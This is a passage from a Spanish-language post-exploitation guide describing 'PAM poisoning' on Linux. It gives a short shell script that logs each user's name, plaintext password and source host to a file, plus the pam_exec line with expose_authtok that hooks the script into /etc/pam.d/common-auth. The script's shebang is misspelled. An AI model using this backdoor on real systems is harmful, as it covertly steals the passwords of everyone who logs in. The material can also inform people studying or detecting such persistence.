    <img src="/assets/img/NP-providers_result1.png">
</p>


---
## Envenenamiento de PAM (Linux)
### Añadiendo script al common-auth
Una forma de obtener las credenciales seria como indican en el siguiente [post](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)

En este caso solo habría que crear un script que almacene el contenido de las variables `$PAM_USER` y `$(cat -)` lo que almacenará la contraseña

*Pluggable Authentication Modules* mas conocido como PAM, en linux, es utilizado para la gestión de autenticación de los usuarios.
```#!/bin/bassh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/archivopassword.log
```

<p align="center">
   <img src="/assets/img/NP-script.png">
</p>

Con `chmod +x` le daremos permisos de ejecución a ese archivo. Luego modificaremos el archivo `/etc/pam.d/common-auth` para añadir la siguiente  linea<br>
`auth optional pam_exec.so quiet expose_authtok RUTA_DEL_SCRIPT`

